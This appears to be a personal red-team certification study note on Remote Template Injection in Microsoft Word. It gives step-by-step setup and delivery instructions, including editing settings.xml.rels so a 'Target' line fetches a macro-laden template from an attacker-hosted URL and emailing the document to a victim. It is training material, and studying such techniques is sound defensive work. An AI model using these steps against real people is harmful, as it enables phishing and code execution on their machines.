 
Microsoft Word has the option of creating new documents from a template.  Office has some templates pre-installed, you can make custom templates, and even download new ones.  

Remote Template Injection is a technique where an attacker sends a benign document to a victim, which downloads and loads a malicious template.  This template may hold a macro, leading to code execution.

### 🖊️ Template Setup

1) Create a new blank document
2) Insert a malicious [[VBA Macros]]
3) Save the file as .dot
4) Host the file somewhere, could be using File Hosting in [[Cobalt Strike]]


### 📔 Delivery Setup

- Create a new blank document and save it as .docx 
- Right click the file and select 7-Zip -> Open archive
- Navigate to word > _rels_, right click "settings.xml.rels" and Edit
- Scroll until you see "Target"
- Modify the value so it points to the URL where the template is located, for example:

	`Target="http://nickelviper.com/template.dot"`

- Save changes and email the document
- Once the file is opened, macros will be executed

You can skip the zip step using a tool like [remoteInjector](https://github.com/JohnWoodman/remoteinjector).


##  📗 Action to perform 

1. 


### Properties
---
📆 created   {{07-02-2024}} 11:12
🏷️ tags: #redteam #crto   
---

